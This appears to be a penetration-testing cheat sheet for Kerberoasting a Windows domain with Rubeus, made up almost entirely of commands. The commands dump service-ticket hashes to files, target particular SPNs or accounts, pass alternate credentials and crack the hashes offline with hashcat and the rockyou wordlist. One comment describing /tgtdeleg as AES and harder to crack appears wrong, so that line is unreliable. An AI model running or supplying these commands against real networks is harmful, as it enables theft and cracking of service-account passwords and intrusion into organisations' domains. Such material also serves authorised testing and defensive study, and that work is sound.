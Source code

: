 
### Save to File (For Offline Cracking)

```powershell
# Hashcat format
Rubeus.exe kerberoast /format:hashcat /outfile:hashes.txt

# John format
Rubeus.exe kerberoast /format:john /outfile:hashes.txt
```

**Crack hashes:**
```powershell
# Copy hashes.txt to Kali, then:
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
```

---

### Target Specific User/SPN

```powershell
# Specific user
Rubeus.exe kerberoast /user:sqlservice

# Specific SPN
Rubeus.exe kerberoast /spn:MSSQLSvc/SQL01.corp.local

# Multiple users
Rubeus.exe kerberoast /user:sqlservice,webservice
```

---

### Advanced Options

```powershell
# Use AES encryption (stealthier, harder to crack)
Rubeus.exe kerberoast /tgtdeleg

# Specify domain controller
Rubeus.exe kerberoast /dc:DC01.corp.local

# Use alternate credentials
Rubeus.exe kerberoast /creduser:CORP\user /credpassword:Password123

# No output, just save to file
Rubeus.exe kerberoast /simple /outfile:hashes.txt
```

---

### Time Expectations

```
Small domain (< 50 users): 10-30 seconds
Medium domain (50-500 users): 30-60 seconds
Large domain (> 500 users): 1-3 minutes
```

---